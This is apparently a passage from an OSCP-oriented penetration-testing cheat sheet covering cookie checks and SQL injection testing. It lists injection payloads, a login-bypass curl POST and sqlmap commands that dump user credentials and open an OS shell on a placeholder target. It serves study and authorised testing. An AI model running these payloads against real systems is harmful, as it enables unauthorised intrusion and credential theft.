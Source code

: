 
### Cookie and Session Analysis
```bash
# Analyze cookies
curl -v http://<target> 2>&1 | grep -i cookie

# Test for session fixation
# 1. Get initial session ID
# 2. Login with credentials
# 3. Check if session ID changes

# Test cookie security flags
# HttpOnly, Secure, SameSite flags should be set
```

## Common Vulnerability Testing

### SQL Injection Testing

#### Basic SQL Injection Tests
```bash
# URL parameter injection
http://<target>/page.php?id=1'
http://<target>/page.php?id=1"
http://<target>/page.php?id=1 OR 1=1--
http://<target>/page.php?id=1 UNION SELECT 1,2,3--
http://<target>/page.php?id=1 AND 1=1--
http://<target>/page.php?id=1 AND 1=2--

# POST data injection (use Burp Suite or curl)
curl -X POST -d "username=admin' OR '1'='1&password=anything" http://<target>/login.php

# Error-based injection
http://<target>/page.php?id=1'
http://<target>/page.php?id=1"
http://<target>/page.php?id=1\
```

#### SQLMap Usage (Use Sparingly in OSCP)
```bash
# Basic scan
sqlmap -u "http://<target>/page.php?id=1"

# POST request
sqlmap -r request.txt --batch

# Specific database enumeration
sqlmap -u "http://<target>/page.php?id=1" --dbs
sqlmap -u "http://<target>/page.php?id=1" -D database_name --tables
sqlmap -u "http://<target>/page.php?id=1" -D database_name -T table_name --columns
sqlmap -u "http://<target>/page.php?id=1" -D database_name -T users -C username,password --dump

# OS shell (if privileges allow)
sqlmap -u "http://<target>/page.php?id=1" --os-shell
```
